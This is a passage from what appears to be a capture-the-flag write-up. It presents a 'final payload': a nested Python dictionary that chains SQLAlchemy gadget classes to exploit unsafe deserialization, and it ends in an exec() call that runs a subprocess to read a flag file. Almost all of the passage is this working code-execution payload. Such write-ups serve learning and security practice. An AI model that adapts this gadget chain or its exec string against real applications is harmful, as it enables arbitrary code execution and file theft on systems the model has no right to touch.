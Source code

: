All together, this is our final payload:
```py
message = {
    "__class__": "RecipeCreateRequest",
    "__module__": "__main__",
    "materials": {
        "__class__": "Date",
        "__module__": "sqlalchemy",
        "split": {
            "__class__": "BooleanPredicate",
            "__module__": "sqlalchemy.testing.exclusions",
            "value": {
                "__class__": "WeakInstanceDict",
                "__module__": "sqlalchemy.orm.identity",
                "_dict": [
                    {
                        "__class__": "Date",
                        "__module__": "sqlalchemy",
                        "obj": {
                            "__class__": "_class_resolver",
                            "__module__": "sqlalchemy.ext.declarative.clsregistry",
                            "arg": "'sparkling powder'",
                            "_dict": {},
                        },
                    },
                    {
                        "__class__": "Date",
                        "__module__": "sqlalchemy",
                        "obj": {
                            "__class__": "_class_resolver",
                            "__module__": "sqlalchemy.ext.declarative.clsregistry",
                            "arg": """exec('import subprocess; raise Exception(subprocess.check_output(["cat", "flag"]))')""",
                            "_dict": {},
                        },
                    },
                ],
            },
        },
    },
}
```
